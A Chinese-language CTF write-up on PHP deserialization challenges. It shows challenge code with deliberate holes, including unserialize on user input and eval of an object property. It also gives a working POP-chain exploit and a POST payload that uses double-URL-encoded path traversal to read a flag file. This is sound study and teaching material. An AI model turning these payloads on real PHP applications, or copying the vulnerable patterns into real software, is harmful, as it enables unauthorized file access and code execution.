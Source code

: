```yaml
---
title: PHP 反序列化题记录
date: 2024-08-15 16:46:12
categories:
    - writeup
tags:
    - ctf
    - writeup
    - 笔记
katex: true
cover: https://yutori-natsu.github.io/images/wpphp.jpg
---
```


### A25 - mew

```php
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);
include 'flag.php';
class Name{
    public $username = 'nonono';
    public $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
        }
    }
}
```

PHP/5.6.24
入门级反序列化，序列化对象数跳过 `__wakeup()` 方法。

### A26 - serializable

```php
error_reporting(0);
class evil{
    public $cmd;
    public $a;
    public function __destruct(){
        eval($this->cmd.'114514');
    }
}
if(!preg_match('/^[Oa]:[\d]+|Array|Iterator|Object|List/i',$_GET['Pochy'])){
    unserialize($_GET['Pochy']);
} else {
    die("hacker!");
}
```

PHP/8.1.9
这个版本不能通过 `O:+4` 这样的添加加号绕过正则。
没有什么头猪，以后再看看吧

### A27 - ezpop

```php
<?php
class night {
    public $night;
    public function __destruct() {
        echo $this->night . '哒咩哟';
    }
}
class day {
    public $day;
    public function __toString() {
        echo $this->day->go();
    }
    public function __call($a, $b) {
        echo $this->day->getFlag();
    }
}
class light {
    public $light;
    public function __invoke() {
        echo $this->light->d();
    }
}
class dark {
    public $dark;
    public function go() {
        ($this->dark)();
    }
    public function getFlag() {
        include(hacked($this->dark));
    }
}
function hacked($s) {
    if(substr($s, 0,1) == '/') {
        die('呆jio步');
    }
    $s = preg_replace('/\.\.*/', '.', $s);
    $s = urldecode($s);
    $s = htmlentities($s, ENT_QUOTES, 'UTF-8');
    return strip_tags($s);
}
$un = unserialize($_POST['pop']);
throw new Exception('seino');
```

PHP/7.4.33
构造 POP 链，前半部分 exp 如下：

```php
$p = new night;
$p -> night = new day;
$p -> night -> day = new dark;
$p -> night -> day -> dark = new light;
$p -> night -> day -> dark -> light = new day;
$p -> night -> day -> dark -> light -> day = new dark;
$p -> night -> day -> dark -> light -> day -> dark = $path;
$sp = serialize($p);
$sp = substr($sp, 0, strlen($sp)-1);
echo "\n" . $sp . "\n";
```

该版本的一个特性：若 `$unserialize` 过程中出错，则会在报错之后直接执行 `$__destruct$`，跳过后续的 `throw new Exception`. 考虑如何绕过字符串拦截：由于 `$s` 是先正则再 urldecode，所以可以在传入 `$s` 时用 `%2e` 和 `%2f` 分别替代 `.` 和 `/`，由于传输过程中有一次 urldecode，所以在 POST 数据包内应该用 `%252e` 代表 `$s` 中的 `%2e`. 注意此时的序列化字符串中 path 的长度不应该用 `%252e` 的长度计算，而应该用 `%2e` 计算。最终的 POST 如下：

```plain
pop=O:5:"night":1:{s:5:"night";O:3:"day":1:{s:3:"day";O:4:"dark":1:{s:4:"dark";O:5:"light":1:{s:5:"light";O:3:"day":1:{s:3:"day";O:4:"dark":1:{s:4:"dark";s:40:"%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fflag";}}}}
```

注意此处的 `s:40:"%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fflag"` 中 40 不代表后方字符串的原始长度，而是 urldecode 一次之后的长度。为了保证所有属性都解析完毕后再报错，删除了序列化字符串结尾的一个花括号。

    备注：用 php-cgi -f index.php 'q1=v1' 在 docker 内手动模拟 GET 请求

### A28 - ex-phar
